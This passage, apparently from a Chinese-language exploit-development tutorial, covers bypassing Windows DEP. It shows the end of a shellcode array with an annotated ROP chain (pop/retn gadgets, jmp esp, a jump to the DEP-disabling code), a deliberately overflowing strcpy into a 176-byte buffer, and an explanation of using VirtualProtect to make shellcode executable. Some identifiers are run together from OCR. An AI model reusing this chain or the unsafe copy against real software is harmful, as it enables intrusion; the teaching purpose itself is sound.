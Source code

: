 ```c++
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\xE9\x77\xBE\x77" //修正 EBP
"\x81\x71\xBA\x7C" //pop eax retn
"\x0A\x1A\xBF\x7C" //pop pop pop retn
"\x3D\x68\xBE\x7C" //pop esi retn
"\xBF\x7D\xC9\x77" //push esp jmp eax
"\x9B\xF4\x87\x7C" //retn 0x30
"\x17\xF5\x96\x7C" //关闭 DEP 代码的起始位置
"\x23\x1E\x1A\x7D" //jmp esp
"\xE9\x27\xFF\xFF" //跳转到 shellcode 起始地址
"\xFF\x90\x90\x90"
;
voidtest()
{
 chartt[176];
 strcpy(tt,shellcode);
}
intmain()
{
 HINSTANCEhInst = LoadLibrary("shell32.dll");
 chartemp[200];
 test();
return 0;
} 
```

#### Ret2Libc 实战之利用 VirtualProtect

在 DEP 的四种工作模式中，Optout 和 AlwaysON 模式下所有进程是默认开启 DEP，这时候如果一个程序自身偶尔需要从堆栈中取指令，则会发生错误。为了解决这个问题微软提供了修改内存属性的 VirtualProtect 函数，该函数位于 kernel32.dll 中，通过该函数用户可以修改指定内存的属性，包括是否可执行属性。因此只要我们在栈帧中布置好合适的参数，并让程序转
入 VirtualProtect 函数执行，就可以将 shellcode 所在内存设置为可执行状态，进而绕过 DEP。

首先我们来看看 MSDN 上对 VirtualProtect 函数的说明。

```c++
BOOL VirtualProtect(
 LPVOID lpAddress,
 DWORD dwSize,
 DWORD flNewProtect,
 PDWORD lpflOldProtect
);
```

各参数的意义为：
- lpAddress，要改变属性的内存起始地址。
- dwSize，要改变属性的内存区域大小。
- flNewProtect，内存新的属性类型，设置为 PAGE_EXECUTE_READWRITE（0x40）时该内存页为可读可写可执行。
- pflOldProtect，内存原始属性类型保存地址。

修改内存属性成功时函数返回非 0，修改失败时返回 0。
